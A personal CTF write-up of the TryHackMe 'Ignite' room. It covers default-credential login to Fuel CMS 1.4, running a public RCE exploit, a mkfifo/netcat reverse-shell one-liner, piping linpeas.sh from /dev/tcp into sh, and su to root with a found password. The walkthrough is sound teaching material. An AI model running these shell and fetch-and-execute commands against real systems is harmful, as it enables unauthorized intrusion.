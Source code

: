 ```yaml
---
title: TryHackMe - Ignite
layout: post
categories:
- TryHackMe
tag:
- ctf,
- privesc,
- exploit
image: "/assets/img/ignite.png"
image_alt: ignite
---
```


A new start-up has a few issues with their web server.. Let's start.

<br>

## 1. Ignite 

Root the box! Designed and created by DarkStar7471, built by Paradox.
Enjoy the room! For future rooms and write-ups, follow @darkstar7471 on Twitter.

<br>

### 1.1 User.txt

Let's do a nmap scan first.

```
$ nmap -sSCV -A -O 10.10.80.114
```

![nmap](/assets/img/tryhackme/ignite/nmap.png)

Only port 80/tcp is open. If we look carefully, there is a directory information in **`robots.txt`**. Disallow: **`/fuel/`**.

![robots](/assets/img/tryhackme/ignite/robots.png)

But first, let's check the website running on port 80. 
Here is a page like this.

![home](/assets/img/tryhackme/ignite/home.png)

As far as I can see, the fuel cms version 1.4 is used here.
There may be a vulnerability in this version, we will check it, but first I want to look at the /fuel/ directory.
Let's go to this directory and see what comes up.

![login](/assets/img/tryhackme/ignite/login.png)

An admin login page appears. By default I tried **`admin:admin`** directly and logged in D:
I didn't expect the admin page to be so easy to reach. Let's see what we find here.

![fuel](/assets/img/tryhackme/ignite/fuel.png)

I'm checking every link on the page to see if we can somehow apply a reverse shell.
But I couldn't find anything remarkable. So I searched in exploit-db if we can find a vulnerability about fuel cms v1.4 that we discovered earlier.

![search](/assets/img/tryhackme/ignite/search.png)

We found something important here. I see that we can exploit the RCE vulnerability in 1.4. Let's take a look at the most recent of them.

![db](/assets/img/tryhackme/ignite/db.png)

I'm downloading the exploit file from here. And now let's run it.

```
$ python 50477.py -u http://10.10.9.177
```

![payload](/assets/img/tryhackme/ignite/payload.png)

We log in to the system, and we provide a clearer connection by using one of the [pentest monkey's reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

![monkey](/assets/img/tryhackme/ignite/monkey.png)

First, we set up a netcat listener on our own machine.

```
$ nc -nlvp 4444
```

Then we enter the following code on the target machine.

```
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.86.168 4444 >/tmp/f
```

And we are inside.

![in](/assets/img/tryhackme/ignite/in.png)

To find user.txt, I first look at the user directories in the /home directory. There is a user and that is www-data. We go in and take the flag right away.

```
$ ls -la /home
$ ls -la /home/www-data
$ cat /home/www-data/user.txt
```

![user-flag](/assets/img/tryhackme/ignite/user-flag.png)

<br>

### 1.2 Root.txt

I'm scanning the system with [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20230319) to upgrade privileges. 

First, I run the following code in the directory where linpeas.sh is located on my own machine.

```
$ sudo nc -q 5 -lvnp 80 < linpeas.sh
```

Then I run the following code on the target machine.

```
$ cat < /dev/tcp/10.8.86.168/80 | sh
```

![run](/assets/img/tryhackme/ignite/run.png)

And it worked. Now we're waiting to see if we can find anything useful.

![linpeas](/assets/img/tryhackme/ignite/linpeas.png)

**`Password: mememe`**

We found a password information, but I don't know what it is for. But let's try it for root.

First, let's call a shell using python. Then let's try logging in.

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ su root
Password: mememe
```

It worked :D. We have successfully rooted.

![privesc](/assets/img/tryhackme/ignite/privesc.png)

Now we can get to root.txt let's get the flag.

![root-flag](/assets/img/tryhackme/ignite/root-flag.png)

<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
